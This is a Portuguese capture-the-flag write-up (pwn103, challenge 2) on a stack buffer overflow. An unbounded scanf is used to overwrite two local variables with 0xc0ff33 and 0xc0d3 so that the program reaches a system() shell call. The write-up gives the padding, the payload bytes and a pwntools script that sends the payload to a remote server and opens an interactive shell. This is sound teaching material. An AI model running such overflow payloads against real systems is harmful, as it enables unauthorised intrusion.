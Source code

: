 
No segundo desafio, nos deparamos com um programa que printa na tela **I need badf00d to fee1dead
Am I right?** e que pede input ao usuário. De cara, tentamos quebrar o programa. Porém, nada de muito interessante acontece. 

![alt text](/images/crow-post-pwn/desafio2Imagem1.png)

Partimos, então, para engenharia reversa do binário. Na imagem abaixo, podemos ver as variáveis locais e as instruções que são do nosso interesse. A função possui três variáveis locais. As variáveis 4 e 8 estão localizadas em rbp - 4 e -8, respectivamente. Outra variável é declarada. Essa está localizada na posição rbp - 0x70. Existe uma chamada para a scanf que carrega o input do usuário na variável 70. Logo depois, é possível ver na imagem que os valores 0C0FF33h e 0C0D3h são comparados aos valores nas variaveis 4 e 8. Ou seja, o programa checka se os valores nessas variaveis são esses. A cada instrução de comparação, existe uma instrução de salto condicional que pula para um procedimento de saída se não for igual a zero. A seguir, temos uma chamada de sistema com um comando de shell a ser executado. Nosso objetivo então é chegar nessa chamada de sistema. Porém, só conseguiremos se os valores de var4 e var8 forem 0C0FF33h e 0C0D3h, respectivamente. Como não existe nenhuma restrição de tamanho na chamada da scanf, podemos usar essa entrada de dados para sobrescrever var4 e var8. Sabemos a posição de cada uma relativa ao endereço de var70. A variável 8 está à (0x70 - 0x8) de distância da variável 70. E a variável 4 está logo abaixo da 8. Portanto, devemos ter: 

-   **Preenchimento completo da variável 70 na pilha:**

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 

A * (*0x70 - 0x8)*

-   **Preenchimento das variáveis 8 e 4 na pilha com os valores desejados:**

\xd3\xc0\x00\x00\x33\xff\xc0\x00 (Little Endian)


![alt text](/images/crow-post-pwn/desafio2Imagem2.png)

Aqui precisamos começar a utilizar uma ferramenta chamada pwntools - *depois de tentar redirecionar a saída do echo e falhar repetidas vezes.* Trata-se de uma ferreamenta que nos fornece uma interface para interagir de forma fácil tanto com processos do seu host quanto aplicações em servidores na internet. A partir do script abaixo, é possível ver algumas das funcionalidades que começaremos a usar. As linhas do código possuem comentários para esclarecer seu papel.

```python
import pwn

#fornecendo um parâmetro que nos permite verificar o dado bruto que está sendo enviado e recebido
pwn.context.log_level = 'debug' 

#estabelecendo o enderenço de domunicação remoto. Substitua ip pelo ip do servidor
p = pwn.remote("ip", 9002)  


#bytes enviados que farao a exploração
payload = b'A' * (0x70-0x8) + pwn.p32(0xc0d3) + pwn.p32(0xc0ff33)

#metodo que recebe dados puros
p.recv()

#metodo que envia o dado especificado pelo parametro
p.sendline(payload)
p.recv()
#nos da uma interface para emular um terminal
p.interactive()
```
## [pwn103 - Challenge 3]
